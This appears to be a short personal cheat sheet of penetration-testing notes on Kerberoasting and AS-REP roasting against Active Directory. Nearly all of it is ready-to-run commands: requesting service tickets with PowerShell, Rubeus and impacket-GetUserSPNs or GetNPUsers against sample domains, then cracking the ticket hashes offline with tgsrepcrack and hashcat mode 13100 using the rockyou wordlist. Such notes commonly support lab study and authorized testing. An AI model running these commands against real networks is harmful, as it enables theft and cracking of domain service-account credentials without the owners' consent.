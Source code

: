 ### 23-Oct-23 Mon

https://github.com/nidem/kerberoast

```
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"
```

```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```


```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

```
hashcat --help | grep -i "Kerberos"
```
## AD Recon – AS-REP Roasting

https://juggernaut-sec.com/as-rep-roasting/

## ASREPRoast

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast#asreproast

```
impacket-GetUserSPNs -request -dc-ip $DomainIP $DomainName/$DomainUser
```

```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

```
proxychains -q impacket-GetUserSPNs -request -dc-ip 172.16.6.240
beyond.com/john
```

```
impacket-GetNPUsers -request -dc-ip $DomainIP $DomainName/$DomainUser
```

```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt
-r /usr/share/hashcat/rules/best64.rule --force
```
